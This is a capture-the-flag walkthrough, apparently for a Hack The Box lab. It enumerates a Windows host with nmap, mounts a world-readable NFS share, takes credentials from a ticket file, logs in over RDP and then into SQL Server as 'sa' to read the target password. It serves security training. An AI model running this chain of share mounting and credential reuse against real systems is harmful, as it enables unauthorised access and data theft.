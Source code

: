 
 Enumerate the server carefully and find the username "`HTB`" and its password. Then, submit this user's password as the answer.

### Nmap
```bash
nmap -sV -sC 10.129.158.159
```

Output:
```bash
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-16T03:34:57+00:00
| ssl-cert: Subject: commonName=WINMEDIUM
| Not valid before: 2024-11-15T02:29:35
|_Not valid after:  2025-05-17T02:29:35
|_ssl-date: 2024-11-16T03:35:05+00:00; +56s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 55s, deviation: 0s, median: 55s
| smb2-time: 
|   date: 2024-11-16T03:34:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

We Can use nmap to Enumerate RPC farther
```bash
nmap -p 2049 --script rpcinfo <target>
```
From the output we see that many version of RPC program are running. and there is NFS mount daemon as well. we will use the `showmount` command to see the mounted shares.
```bash
showmount -e $ip
```

Output
```bash
Export list for 10.129.158.159:
/TechSupport (everyone)
```

we see a shared directory `TechSupport` that everyone can access.
#### [[NFS Network File System]] 
Since we have a directory to mount we can use NFS to mount the share from a remote server to a local directory on Linux system.
```bash
mkdir target-nfs
cd target-nfs
sudo mount -t nfs 10.129.158.159:/ target-nfs/ -o nolock
cd target-nfs
sud ls -la
sudo ls -la TechSupport
sudo cat TechSupport/ticket4238791283782.txt 
```

`-t nfs` Specifies the type of filesystem to mount in this case `nfs` indicates that the filesystem is an `NFS` share

**`$ip:/`**:
- `$ip` is a placeholder for the **IP address** or **hostname** of the remote NFS server.
- `:/` specifies the **root directory** of the NFS export on the server. Replace `$ip` with the actual IP address or hostname of the server.

- **`./target-NFS/`**:
    - This is the **local mount point**, i.e., the directory on the local system where the NFS share will be mounted.
    - Replace `./target-NFS/` with the path to an existing directory. If the directory does not exist, it must be created first (e.g., using `mkdir`).
    
- **`-o nolock`**:
    - `-o` specifies options for the mount operation.
    - `nolock` disables NFS file locking, which can sometimes be necessary in environments where the `rpc.statd` or `lockd` daemons are not running (e.g., minimal or containerized environments).
Output of the `cat`
```bash
sudo cat TechSupport/ticket4238791283782.txt
Conversation with InlaneFreight Ltd

 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"

.......
```
We got the username and password now we can connect to 3389 RDP using `xfreerdp`
```bash
xfreerdp /cert:ignore /u:alex /p:"lol123!\mD" /v:10.129.158.159
```
We we'll get a windows connection window where we can interact with database.
![[Pasted image 20241115230238.png]]After looking around on the files and directories i found a file called `important`
![[Pasted image 20241115230633.png

Looks like a password  `sa:87N1ns@slls83`
after running the Microsfot SQL Server on desktop with administrator it requires a passwod and using the password about for `sa` will let us into the database.
![[Pasted image 20241115230900.png]]
And we are in. Now we just need to query the database for the user and password and submited.
![[Pasted image 20241115231055.png]]
By expanding the `accounts` > `Tables` > `dbo.devsacc` and write click and `select Top 1000 row` and scroll down to find user `HTB` and password `lnch7ehrdn43i7AoqVPK4zWR`. 
![[Pasted image 20241115231916.png]]
